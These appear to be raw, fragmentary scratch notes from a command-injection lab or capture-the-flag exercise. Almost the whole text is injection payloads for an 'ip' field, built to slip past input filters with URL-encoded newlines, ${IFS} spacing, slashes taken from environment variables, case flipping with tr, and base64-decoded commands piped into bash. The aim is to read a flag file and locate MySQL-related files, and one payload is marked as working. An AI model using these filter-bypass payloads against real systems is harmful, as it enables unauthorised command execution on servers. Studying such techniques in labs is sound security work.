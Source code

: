 Attempts:

ip=127.0.0.1${LS_COLORS:10:1} - KO
127.0.0.1%0ac%27a%27t${IFS}${HOME:0:1}f%22la%22g*

```bash
${LS_COLORS:10:1}%26c’a’t%09${PATH:0:1}flag.txt
```
 find /usr/share/ | grep root | grep mysql | tail -n 1
 
```shell-session
$(tr "[A-Z]" "[a-z]"<<<"WhOaMi")

$(tr${IFS}"[A-Z]"${IFS}"[a-z]"<<<"pWd")

127.0.0.1%0a$(tr${IFS}"[A-Z]"${IFS}"[a-z]"${IFS}<<<${IFS}"fInD")${IFS}${PATH:0:1}usr${PATH:0:1}share${PATH:0:1}

bash<<<$(base64${IFS}-d<<<ZmluZCAvdXNyL3NoYXJlLwo=)

bash<<<$(base64${IFS}-d<<<ZmluZCAvdXNyL3NoYXJlLyB8IGdyZXAgcm9vdCB8IGdyZXAgbXlzcWwgfCB0YWlsCg==)

find /usr/share/ | grep root | grep mysql | tail -n 1 > ZmluZCAvdXNyL3NoYXJlLyB8IGdyZXAgcm9vdCB8IGdyZXAgbXlzcWwgfCB0YWlsIC1uIDEK
```

fInD%0a${PATH:0:1}

%0a$(tr "[A-Z]" "[a-z]" <<< "fInD")%0a${PATH:0:1}

working: 127.0.0.1%0a$(tr${IFS}"[A-Z]"${IFS}"[a-z]"${IFS}<<<${IFS}"fInD")${IFS}${PATH:0:1}usr${PATH:0:1}share${PATH:0:1}%7c%7cgr'e'p${IFS}root
```

```
fCBncmVwIHJvb3QgfCBncmVwIG15c3FsIHwgdGFpbCAtbiAxCg==




````
fs
```````

